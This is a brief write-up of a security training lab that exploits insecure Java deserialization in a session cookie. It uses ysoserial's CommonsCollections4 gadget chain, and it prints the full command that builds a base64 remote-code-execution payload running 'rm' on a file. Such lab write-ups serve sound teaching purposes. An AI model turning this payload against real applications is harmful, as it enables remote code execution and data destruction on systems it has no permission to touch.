 This lab uses a serialization-based session mechanism and loads the Apache Commons Collection library.

We can exploit this lab using pre-built gadget chains, which we will build using the `ysoserial` tool.
With `ysoserial`, we will generate a malicious serialized object containing a Remote Code Execution payload that will delete `/home/carlos/morale.txt` file. As we know the framework which we are working with (Apache Commons), we don't need the source code and we can try with the serialization object created with `ysoserial`. Remember that the gadget chain is already in the code, and we are inserting a payload that will trigger this chain into Remote Code Execution.

First, we download the tool. After that, we execute the following command to remove the desired file and specify the Apache Commons framework:

`java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 `

With this command we will generate a base64 payload (the cookie is in base64) that will contain an object that will trigger RCE with the specified command. Let's attach the object to the request AND url-encode key characters:
![](imgs/java_gadget_chain_apache_commons-1.png)

This returns us the completion of the lab:
![](imgs/java_gadget_chain_apache_commons-2.png)




